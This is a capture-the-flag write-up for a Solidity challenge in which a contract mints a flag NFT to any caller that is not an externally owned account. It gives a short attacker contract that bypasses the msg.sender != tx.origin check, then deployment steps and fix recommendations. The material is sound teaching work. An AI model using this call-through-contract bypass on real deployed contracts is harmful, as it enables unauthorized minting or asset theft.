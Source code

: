 # Challenge Overview
- Name: Challenge 2
- Category: Smart Contract Exploitation
- Objective: Mint the NFT associated with Challenge 2.

# Contract Code

```solidity
//SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "./INFTFlags.sol";

contract Challenge2 {
    address public nftContract;

    constructor(address _nftContract) {
        nftContract = _nftContract;
    }

    function justCallMe() public {
        require(msg.sender != tx.origin, "Not allowed");
        INFTFlags(nftContract).mint(tx.origin, 2);
    }
}
```


# Vulnerability Analysis

The function justCallMe checks that the caller `msg.sender` is not the transaction origin `tx.origin`. This implies that the function must be called through a contract rather than directly by an EOA (Externally Owned Account). However, there is no additional validation, which makes it exploitable.

# Exploit Execution

To exploit this vulnerability, we can write a simple attacker contract to bypass the require check. By deploying and calling the function through a contract, we can successfully mint the NFT:

```solidity
interface IChallenge2 {
    function justCallMe() external;
}
contract Exploit {
    IChallenge2 public target;

    constructor(address _target) {
        target = IChallenge2(_target);
    }

    function exploit() public {
        target.justCallMe();
    }
}
```

## Execution Steps:
1. Deploy the Exploit contract with the address of the Challenge2 contract.
2. Call the exploit function of the deployed Exploit contract.

This successfully meets the condition of `msg.sender != tx.origin` and mints the NFT.

# Result & Impact

This exploit allows any user to mint an NFT without proper authorization. The lack of proper access control undermines the security of the contract and the exclusivity of the NFT.

# Fix Recommendation

To mitigate this vulnerability, consider:
1. Implementing proper access control using Ownable or a whitelist mechanism.
2. Validating the caller against a list of authorized addresses.
3. Using a more secure authentication mechanism that cannot be bypassed by contracts:

```solidity
require(msg.sender == tx.origin && authorized[msg.sender], "Not allowed");
```

This would ensure that only authorized EOAs can call the function, preventing unauthorized minting.